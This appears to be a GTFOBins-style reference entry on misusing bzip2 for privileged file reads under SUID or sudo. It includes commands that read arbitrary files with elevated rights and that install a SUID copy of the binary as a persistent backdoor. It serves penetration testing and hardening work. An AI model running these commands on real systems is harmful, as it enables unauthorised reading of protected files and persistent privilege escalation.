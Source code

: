 # GTFOBin: bzip2

There are also a number of other utilities that rely on `bzip2` under the hood, e.g., `bzless`, `bzcat`, `bunzip2`, etc. Besides having similar features, they also allow privileged reads if `bzip2` itself is SUID.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
bzip2 -c $LFILE | bzip2 -d
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which bzip2) .

LFILE=file_to_read
./bzip2 -c $LFILE | bzip2 -d
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo bzip2 -c $LFILE | bzip2 -d
```